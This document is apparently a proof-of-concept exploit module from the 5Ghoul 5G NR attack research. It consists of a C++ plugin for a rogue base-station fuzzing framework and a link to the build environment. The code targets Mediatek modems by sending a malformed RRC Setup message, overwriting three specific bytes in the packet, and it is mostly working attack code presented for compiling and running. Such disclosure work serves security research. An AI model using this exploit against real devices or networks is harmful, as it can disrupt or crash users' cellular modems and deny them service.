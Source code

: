 To compile and run this PoC code, you'll need the environment described here: https://github.com/asset-group/5ghoul-5g-nr-attacks?tab=readme-ov-file#4--create-your-own-5g-exploits-test-cases

```cpp
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

// Vars

const char *module_name()
{
    return "Mediatek";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;

    // Declare filters
    f1 = wd_filter("nr-rrc.rrcSetup_element");

    return 0;
}

// TX
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters
    wd_register_filter(ctx->wd, f1);

    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed rrc setup sent!");
        pkt_buf[129 - 48] = 0x11;
        pkt_buf[130 - 48] = 0x7f;
        pkt_buf[152 - 48] = 0x17;
        return 1;
    }

    return 0;
}

```
